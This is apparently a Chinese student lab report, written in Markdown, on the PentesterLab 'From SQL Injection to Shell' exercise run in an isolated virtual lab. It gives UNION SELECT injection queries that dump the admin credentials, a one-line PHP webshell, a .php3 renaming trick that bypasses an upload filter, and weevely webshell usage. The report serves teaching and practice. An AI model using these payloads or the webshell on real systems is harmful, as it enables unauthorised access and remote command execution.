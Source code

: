 # chap0x07 从SQL注入到Shell

----------

## 实验目的
* 在基于PHP的网站中使用SQL注入来获取对管理页面的访问权限
* 利用获取的权限在服务器上执行代码
## 实验环境
* 客户端
	<pre>
	名称：Client
	网卡：eth1(Host-Only 网络)
	IP：192.168.56.102
	</pre>
* 服务端
	<pre>
	名称：Server
	网卡：eth0(Host-Only 网络)
	IP：192.168.56.101
	</pre>
## 实验过程
* 检测网站是由哪种语言编写
	* Server在线状态下，Client的Firefox浏览器中打`inspect element`然后访问地址`192.168.56.101`,在Network栏检查Response headers的X-Powered-By字段。
	* 结果：网站基于PHP编写
	* ![](image/PHP.png) 
* 检测是否可进行SQL注入
	* 通过SQL查询语句返回的错误提示信息检测网站是否可进行SQL注入
	* 访问`192.168.56.101/cat.php?id=num`,num为不同的数字时返回的结果如下
	* ![](image/id1.png)
	* ![](image/id2.png)
	* ![](image/id1_.png)
	* 输入`id=2-1`时仍返回id=1时的页面，说明URL中提供的参数被当作整数进行SQL查询，且允许用户进行基本的数学运算。在输入`192.168.56.101/cat.php?id=2-1'`时引起了SQL语法错误，说明服务端对用户的输入没有做处理进行了SQL查询，因此可以将此处作为一个注入点。
* 尝试进行SQL注入
	* 查询语句的开头不能由客户直接修改，因为它存在于web端的PHP代码中，但是我们可以使用`union`语句来构造查询语句的结尾。要使用`UNION SELECT`并且能让服务器正确返回查询结果，而不是触发错误，首先要通过`order by`语句找到select语句的查询结果返回了多少列，发现当URL=`\cat.php?id=2 order by 5`时发生错误：
	* ![](image/order.png) 
	* 或者可以使用`/cat.php?id=2 union select 1,2,3,4`找到select语句的查询结果返回了多少列，因为只有当union前后查询结果返回的列数相同时才不会触发错误。使用这种方式查询时发现网站对union后面的查询语句返回结果是`picture:2`说明第二列是作为图片名输出的。那么可以将需要的查询结果放到第二列来显示到网页。
	* ![](image/select.png)
	* 现在已经知道SQL查询后返回的结果有4列，使用查询语句` UNION SELECT 1,table_name,3,4 FROME information_schema.tables`即可返回数据库中所有的table。` UNION SELECT 1,column_name,3,4 FROME information_schema.columns`用于返回数据库中所有的列。
	* ![](image/union1.png)
	* 但是我们需要的是每一列对应的表。因此需要使用`concat`函数，将两个字符串连接为一个字符串。查询语句为`1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns`。返回的结果显示了数据库中每一列对应的表。
	* ![](image/union2.png)
	* 在众多返回结果中发现users表，其对应的列名有id,login,password三个。
	* ![](image/users.png)
	* 现在开始对users表进行信息筛选。发现数据库对password进行了加密，通过浏览器解密得password:P4ssw0rd.
	* ![](image/admin.png)
	* 现在我们获得了网站管理员的登录名和密码，相当于获得了管理页面的访问权限。接下来就是如何上传webshell并执行。
	* ![](image/success.png)
* 尝试上传webshell并执行
	* 先在本地编写PHP代码并保存为shell.php文件,然后利用网站的上传功能上传此文件。发现上传失败，网站对PHP文件的上传进行了限制。将文件重命名为shell.php3，上传成功。
	```
	<?php
	  system($_GET['cmd']);
	?>```
	* ![](image/upload_php.png)
	* 通过浏览器的网页编辑功能找到上传的shell.php3在web服务器端的保存位置，位置为`admin/uploads/shell.php3`
	* ![](image/img_src.png)
	* 现在开始尝试执行上传的webshell。返回结果是web服务器当前内核，Linux。至此webshell成功执行。
	* ![](image/webserver.png)
* 高级webshell
	* 使用kali自带的工具`weevely`
	* 用法
		* `weevely generate <password> <path>`,生成webshell
		* 将生成的webshell上传至网站
		* `weevely <URL> <password> [cmd]`,用weevely与web端建立连接
		* ![](image/weevely.png)
## 结尾
* 参考资料[https://pentesterlab.com/exercises/from_sqli_to_shell](https://pentesterlab.com/exercises/from_sqli_to_shell/course)
* 参考同学作业[https://github.com/CUCCS/2018-NS-Public-TheMasterOfMagic](https://github.com/CUCCS/2018-NS-Public-TheMasterOfMagic/tree/ns-chap0x07)